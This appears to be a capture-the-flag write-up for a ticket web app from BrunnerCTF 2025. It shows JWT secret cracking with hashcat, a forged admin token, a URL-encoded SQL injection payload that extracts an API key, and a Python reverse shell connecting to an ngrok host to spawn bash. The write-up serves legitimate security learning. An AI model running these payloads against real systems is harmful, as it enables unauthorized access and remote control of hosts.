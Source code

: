 After logging in with your new account, there's an "admin" check. A common key is used to sign JWTs here, you can crack it using hashcat.

```bash
$ hashcat 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImFkbWluIjpmYWxzZSwiZXhwIjoxNzU1OTYzMzYwfQ.y3Uas6j0NdRN0SSV9QrQxhxSz0C6-i57yny4AEyQjCA' /usr/share/wordlists/rockyou.txt
...[SNIP]...
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCIsImFkbWluIjpmYWxzZSwiZXhwIjoxNzU1OTYzMzYwfQ.y3Uas6j0NdRN0SSV9QrQxhxSz0C6-i57yny4AEyQjCA:secretkey
```

Sign your own token with the admin claim set to true. [Cyberchef recipe here](https://gchq.github.io/CyberChef/#recipe=JWT_Sign('secretkey','HS256','%7B%5Cn%20%20%22alg%22:%20%22HS256%22,%5Cn%20%20%22typ%22:%20%22JWT%22%5Cn%7D')&input=ewogICJ1c2VyIjogInRlc3QiLAogICJhZG1pbiI6IHRydWUsCiAgImV4cCI6IDE3NTU5NjMzNjAKfQ)

Admin dashboard lets you search for users, and this API endpoint is vulnerable to SQL injection. After basic enum, you will know it's 4 columns, and is sqlite.

Now you might be wondering how to get RCE from sqlite 🤔  It's not possible without loaded extensions, or a file write primitive, even moreso because this is a python app.

There's a non-default table `settings` that gives us an API key.
```
'%20union%20SELECT%201%2Ckey%2Cvalue%2C4%20FROM%20settings%3B--
```

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/ticketsapp-settings.png)

You can use the API key to upload a malicious python module to get a shell on the box. Swagger docs is enabled (/api/docs) which allows you to discover this endpoint.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("0.tcp.ap.ngrok.io",10391))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

![alt text](/CTF-writeups/2025/brunnerctf-2025/images/ticketsapp-api.png)

Flag: `brunner{fr0nt_r0w_t1ck3ts_f0r_brunn3r_4nd_b455}`

Solved by: benkyou